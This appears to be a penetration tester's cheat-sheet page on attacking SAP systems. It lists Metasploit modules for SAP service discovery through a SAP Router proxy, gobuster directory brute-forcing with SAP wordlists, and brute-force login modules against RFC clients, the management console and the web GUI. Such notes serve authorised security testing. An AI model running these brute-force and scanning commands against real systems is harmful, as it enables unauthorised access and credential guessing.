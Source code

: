 # SAP

## Pivot Scan Web Directories

```
msf > use auxiliary/scanner/sap/sap_service_discovery

msf auxiliary(scanner/sap/sap_service_discovery) > set proxies:<SAP_server_IP>:<SAP_Router_PROXY_PORT>

msf auxiliary(scanner/sap/sap_service_discovery) > run rhosts=<IP>
```

## Brute Force Web Directories

```
$ gobuster dir -u <URL> -w /usr/share/seclists/Discovery/Web-Content/URLs/urls-SAP.txt

$ gobuster dir -u <URL> -w /usr/share/seclists/Discovery/Web-Content/sap.txt
```

## Brute Force RFC Clients

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_brute_login

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > set proxies:<SAP_server_IP>:<SAP_Router_PROXY_PORT>

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > set client 000,001,002,003,004,005,006,007,066

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > run rhosts=<IP>
```

## Brute Force Credentials

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_brute_login
```

```
msf > use auxiliary/scanner/sap/sap_web_gui_brute_login
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/SAP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/SAP]]